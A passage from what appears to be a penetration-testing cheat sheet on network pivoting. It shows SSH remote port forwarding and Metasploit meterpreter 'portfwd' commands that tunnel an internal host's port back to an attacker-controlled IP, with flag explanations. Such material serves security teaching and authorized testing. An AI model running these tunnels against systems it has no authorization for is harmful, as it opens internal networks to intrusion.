   <img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/pivot-2.png">
</p>

#### Remote Port Forwarding with SSH
```bash
ssh -R attackerport:remote-ip:remote-port user@attacker-ip

# In case of above theoretical condition
ssh -R 9090:10.20.0.5:8080 user@10.10.0.2

ssh -R attackerport:localhost:remoteport user@attacker-ip

# Forwarding multipe ports
ssh -R attackerport:remote-ip:remote-port attackerport2:remote-ip:remote-port2 user@attacker-ip
```

#### Remote Port Forwarding with Metasploit
```bash
# After you get the meterpreter session
portfwd add -R -L attacker-ip -l attacker-port -p <remote port on targets machine> -r <target ip>

# List the forwarded ports
portfwd list

# Delete all
portfwd flush

# In case of above theoretical condition
portfwd add -R -L 10.10.0.2 -l 9090 -p 8080 -r 10.20.0.5
```
- Where,
  - "-R" this instructs meterpreter that the rule is a reverse one.
  - "-L" tells meterpreter the IP address on which the multi handler is running; this is out metasploit system.
  - "-l" is the local port that an attacker will communicate on its machine
  - "-p" is the remote port that an attacker will communicate through its local port.
  - "-r" is the ip address of a machine whose remote port is required to be accessed.

